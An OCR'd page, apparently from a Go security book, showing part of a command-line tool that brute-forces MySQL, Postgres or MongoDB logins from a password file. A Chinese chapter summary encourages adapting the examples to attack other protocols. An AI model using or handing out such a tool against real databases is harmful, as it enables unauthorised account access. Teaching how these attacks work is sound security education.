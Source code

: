 ```go
      os.Exit(1) 
   } 
   return os.Args[1], os.Args[2], os.Args[3], os.Args[4], os.Args[5] 
} 

func printUsage() { 
   fmt.Println(os.Args[0] + ` - Brute force database login  

Attempts to brute force a database login for a specific user with  
a password list. Database name is ignored for MySQL and Mongo, 
any value can be provided, or it can be omitted. Password file 
should contain passwords separated by a newline. 

Database types supported: mongo, mysql, postgres 

Usage: 
  ` + os.Args[0] + ` (mysql|postgres|mongo) <pwFile>` +
     ` <user> <host>[:port] <dbName> 

Examples: 
  ` + os.Args[0] + ` postgres passwords.txt nanodano` +
      ` localhost:5432  myDb   
  ` + os.Args[0] + ` mongo passwords.txt nanodano localhost 
  ` + os.Args[0] + ` mysql passwords.txt nanodano localhost`) 
} 

func main() { 
   dbType, passwordFile, username, host, dbName = checkArgs() 

   switch dbType { 
   case "mongo": 
       loginFunc = loginMongo 
   case "postgres": 
       loginFunc = loginPostgres 
   case "mysql": 
       loginFunc = loginMysql 
   default: 
       fmt.Println("Unknown database type: " + dbType) 
       fmt.Println("Expected: mongo, postgres, or mysql") 
       os.Exit(1) 
   } 

   doneChannel = make(chan bool) 
   bruteForce() 
} 
```

# 摘要

阅读完本章后，您现在将了解基本的暴力破解攻击如何针对不同的应用程序工作。您应该能够根据自己的需求调整这里给出的示例来攻击不同的协议。
